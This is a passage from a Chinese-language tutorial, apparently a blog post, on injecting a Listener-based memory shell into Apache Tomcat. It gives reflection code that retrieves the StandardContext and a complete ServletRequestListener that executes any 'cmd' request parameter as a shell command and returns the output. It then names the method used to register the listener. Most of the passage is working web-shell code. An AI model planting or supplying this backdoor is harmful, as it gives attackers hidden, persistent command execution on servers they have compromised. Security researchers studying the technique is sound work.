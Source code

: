 ```java
Field requestField = request.getClass().getDeclaredField("request");
requestField.setAccessible(true);
Request request1 = (Request) requestField.get(request);
StandardContext standardContext = (StandardContext) request1.getContext();
```

### 2.生成恶意Listener

getParameter进行命令执行的地方就不多说了。创建Listener需要执行ServletRequestListener#requestInitialized()，那就new一个ServletRequestListener类然后重写requestInitialized方法。

ServletRequestEvent提供了getServletRequest()方法获取request

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228143920730.png)

上面获取context过程中用到的request1为Request对象，封装了getter获取response

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228144502202.png)



```java
ServletRequestListener listener = new ServletRequestListener() {
        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            HttpServletRequest req = (HttpServletRequest) sre.getServletRequest();
            HttpServletResponse resp = request1.getResponse();
            if (req.getParameter("cmd") != null) {
                try {
                    boolean isLinux = true;
                    String osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }
                    String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = new Scanner(in).useDelimiter("\\A");
                    String out = s.hasNext()?s.next():"";
                    resp.getWriter().write(out);
                    resp.getWriter().flush();
                }catch (IOException ioe){
                    ioe.printStackTrace();
                }
            }
        }

```

### 3.添加Listener

反射获取的StandardContext有addApplicationEventListener()添加Listener

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221228144911877.png)
